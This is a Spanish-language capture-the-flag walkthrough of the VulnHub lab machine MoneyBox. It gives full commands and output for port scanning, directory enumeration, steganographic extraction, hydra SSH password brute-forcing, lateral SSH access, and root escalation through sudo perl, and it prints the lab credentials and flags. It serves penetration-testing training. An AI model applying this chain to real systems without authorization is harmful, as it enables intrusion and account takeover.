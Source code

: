# Write Up MoneyBox VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 03:22 EDT
Nmap scan report for 192.168.195.144
Host is up (0.00052s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.195.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e:30:ce:72:81:e0:a2:3d:5c:28:88:8b:12:ac:fa:ac (RSA)
|   256 01:9d:fa:fb:f2:06:37:c0:12:fc:01:8b:24:8f:53:ae (ECDSA)
|_  256 2f:34:b3:d0:74:b4:7f:8d:17:d2:37:b1:2e:32:f7:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MoneyBox
MAC Address: 00:0C:29:88:87:78 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 192.168.195.144

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
```

### ftp

```shell
ftp anonymous@<IP>
```

```shell
get trytofind.jpg
```

Nos descargamos ese `.jpg`, lo utilizaremos mas adelante...

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x php,html,txt -t 50 -r -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.195.144/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.php        (Status: 403) [Size: 280]
/.htpasswd.txt        (Status: 403) [Size: 280]
/.htaccess.txt        (Status: 403) [Size: 280]
/.htaccess.html       (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htpasswd.html       (Status: 403) [Size: 280]
/.htpasswd.php        (Status: 403) [Size: 280]
/blogs                (Status: 200) [Size: 353]
/index.html           (Status: 200) [Size: 621]
/server-status        (Status: 403) [Size: 280]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/blogs/` e inspeccionamos el codigo veremos un comentario que dice lo siguiente....

```html
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

Por lo que leemos parece que hay un archivo llamado `S3cr3t-T3xt` que si lo ponemos en la `URL`...

```
URL = http://<IP>/S3cr3t-T3xt/
```

Si inspeccionamos la pagina veremso otro comentario que dice lo siguiente...

```html
<!..Secret Key 3xtr4ctd4t4 >
```

Y eso sera la contraseña del salvoconducto para el siguiente comando...

```shell
steghide extract -sf trytofind.jpg
```

Poniendo como salvoconducto esa clave que encontramos nos extraera un archivo llamado `data.txt` que si lo leemos pondra lo siguiente...

```
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

Ya sabemos que el usuario es `renu` por lo que tiraremos un `hydra`...

```shell
hydra -l renu -P <WORDLIST> ssh://192.168.195.144 -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-28 04:43:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.195.144:22/
[22][ssh] host: 192.168.195.144   login: renu   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-28 04:44:15
```

> Credentials

```
User = renu
Password = 987654321
```

Por lo que nos conectamos por `ssh`...

```shell
ssh renu@<IP>
```

Una vez dentro leemos la flag...

> user1.txt

```
Yes...!
You Got it User1 Flag

 ==> us3r1{F14g:0ku74tbd3777y4}
```

Depues leemos la segunda flag ubicada en `/home/lily`...

> user2.txt (flag2)

```
Yeah.....
You Got a User2 Flag

==> us3r{F14g:tr5827r5wu6nklao}
```

Si vamos al `.ssh` del usuario `lily` vemos que solo esta el archivo llamado `authorized_keys` y por lo que vemos no esta el `id_rsa` privado ni publico, por lo que nos podremos conectar al usuario `lily` sin contraseña dentro de la maquina...

```shell
ssh lily@<IP>
```

Pero ese comando dentro de la maquina, no desde nuestro `host`...

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

Vemos que podemos ejecutar `perl` como `root` por lo que tendremos que hacer lo siguiente para ser `root`....

```shell
sudo perl -e 'exec "/bin/sh";'
```

Con esto ya seremos `root`, por lo que leeremos la flag...

> .root.txt (flag3)

```
Congratulations.......!

You Successfully completed MoneyBox

Finally The Root Flag
    ==> r00t{H4ckth3p14n3t}

I'm Kirthik-KarvendhanT
    It's My First CTF Box
         
instagram : ____kirthik____

See You Back....
```
